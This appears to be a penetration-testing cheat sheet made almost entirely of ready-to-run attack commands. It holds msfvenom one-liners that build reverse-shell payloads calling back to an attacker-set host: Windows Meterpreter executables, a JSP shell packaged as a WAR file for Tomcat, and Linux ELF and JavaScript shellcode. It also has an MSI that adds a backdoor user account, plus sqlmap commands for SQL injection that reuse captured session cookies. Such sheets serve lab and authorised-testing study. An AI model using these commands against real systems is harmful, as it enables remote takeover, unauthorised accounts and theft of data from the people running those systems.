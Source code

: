 
##  Meterpreter exe with reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOURIPADDRESS LPORT=4444 -f exe > meterpreter.exe
	
	
##  64-bit
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.12.120 LPORT=4444 -f exe > met64.exe


##  WAR file for Apache Tomcat.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOURIPADDRESS LPORT=443 -f war > shell.war


##  find malicious js file extract shell.war then browse to js file in browser
jar -xvf shell.war


##  Windows MSI
msfvenom -f msi-nouac -p windows/adduser USER=hackerman PASS=password -o add_user.msi


##  Javascript
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.121 LPORT=443 -f js_le


##  Linux elf binary
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.121 LPORT=443 -b "\x00" -f elf -o filename





##  SQLMap

##  Easy mode:
sqlmap --wizard


##  you need to authenticate before 
##  you can access vulnerable parameter.
##  Capture request with burp and save to request.txt:
sqlmap -r request.txt


##  grab cookie out of burp/proxy and insert into command line option:
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --cookie "PHPSESSIONID=1234example"
